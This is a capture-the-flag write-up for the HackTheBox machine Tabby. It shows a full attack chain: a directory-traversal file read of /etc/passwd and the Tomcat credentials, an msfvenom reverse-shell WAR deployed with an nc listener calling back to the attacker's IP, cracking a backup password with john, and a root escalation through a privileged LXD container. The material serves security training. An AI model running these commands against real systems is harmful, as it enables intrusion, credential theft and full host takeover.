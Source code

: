 ```yaml
---
image: /assets/avatars/tabby.png
author: Valerio Casalino
title: Tabby Writeup
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/tabby.png"> Writeup for Tabby (Hackthebox)
---
```


# Tabby

As always let's start with an `nmap` to get open ports.

![image-20201022115235445]({{ site.url }}/assets/tabby/image-20201022115235445.png)

And we got this result:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux;protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point, before starting any automated enumeration, we should take a look at the websites on port 80 and on port 8080.

![image-20201022115744210]({{ site.url }}/assets/tabby/image-20201022115744210.png)

On port 80 we can immediately see an email, which gives us a domain name. It is not really important for this machine, but a good practice in cases like this is to check for virtual hosts by adding the domain to the hosts file:

```bash
echo "\n10.10.10.194\t\tmegahosting.htb www.megahosting.htb\n" | sudo tee -a /etc/hosts
```

So, after this edit, we can connect to megahosting.htb and start looking around, until we find a curious way to include content in the news page:

```
http://megahosting.htb/news.php?file=statement
```

We can modify the request with `burp`, but seems a little overkill for this task, so we can try to trigger a directory traversal with a simple `curl` first (assuming the website is placed in `/var/www/../something`):

```bash
curl "http://www.megahosting.htb/news.php?file=../../../../etc/passwd"
```

![image-20201022131328944]({{ site.url }}/assets/tabby/image-20201022131328944.png)

We discovered the user `ash`, but, more importantly, that this location is vulnerable to a bad file inclusion that we can exploit later.

To take advantage of this vulnerability, we have to check port 8080.

![image-20201022131529012]({{ site.url }}/assets/tabby/image-20201022131529012.png)

Which gives us the initial page of tomcat and the CATALINA_HOME, in which a file named `tomcat-users.xml` contains the credentials for tomcat. The info can be retrieved with a simple Google search, [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory) is the link to the article I found.

If we trigger the file inclusion on port 80 to get that file we have:

![image-20201022131953473]({{ site.url }}/assets/tabby/image-20201022131953473.png)

So we got tomcat's credentials: `tomcat:$3cureP4s5w0rd123!`.

After a little research on how to upload a `.war` file ([WAR (file format)](https://en.wikipedia.org/wiki/WAR_(file_format))), I found [this answer](https://stackoverflow.com/a/52386613) on StackOverflow, and I did made exactly that.

```bash
# First, create the war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -f war > shell.war
# Then upload it using tomcat's creds
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/lolz&update=true'
# Get ready for the reverse shell
nc -lvvp 9001
```

Now, if we go to `http://megahosting.htb:8080/lolz`, we'll trigger the reverse shell!

![image-20201022133127965]({{ site.url }}/assets/tabby/image-20201022133127965.png)

At this point, with some enumeration, we can find a backup file:

![image-20201022133555734]({{ site.url }}/assets/tabby/image-20201022133555734.png)

(I just used `find` to find all the files in the system that I could read, but that were owned by `ash`)

Let's get this backup.

```bash
wget "http://www.megahosting.htb/news.php?file=../../../../var/www/html/files/16162020_backup.zip" -O backup.zip
```

The zip file is password protected, so we'll use `john` to find it.

![image-20201022134232933]({{ site.url }}/assets/tabby/image-20201022134232933.png)

At this point, the only thing left to do is let `john` do its magic:

```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt for_john.txt
```

Then we get the password of the archive, which is the same as `ash`'s account, so we obtained user's credentials: `ash:admin@it`.

So, we can switch user into the box:

![image-20201022191319438]({{ site.url }}/assets/tabby/image-20201022191319438.png)

For my comfort I'll suggest to [put a pubkey](https://www.ssh.com/ssh/keygen/) into `ash`'s `~/.ssh/authorized_hosts`, or [upgrade your shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but everything will work anyway. Go in the home directory and get the flag.

Running `id`, we discovered that the user is in the `lxd`  group, so he's able to create containers and running them as `root`. If we mount the root partition inside the container we can basically be root in the box. Documentation of LXD [here](https://linuxcontainers.org/lxd/docs/master/). 

First, you have to get a container image from the [web repository](https://images.linuxcontainers.org/images/) and transfer it to the box:

```bash
# Locally
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
mv alpine-* alpine.tar.gz
python3 -m http.server
# On Tabby
a=$(mktemp -d)
cd $a
wget "http://10.10.14.51:8000/alpine.tar.gz"
lxc image import ./alpine.tar.gz --alias lolz-image
```

To run the privilege escalation you have to:

```bash
# Initialize the container and make it accessible as root
lxc init lolz-image lolz -c security.privileged=true
# Mount the root partition (/) where you want
lxc config device add lolz lolz-image disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start lolz
# Get a shell inside of it
lxc exec lolz /bin/sh
```

... profit.

![image-20201022194855232]({{ site.url }}/assets/tabby/image-20201022194855232.png)
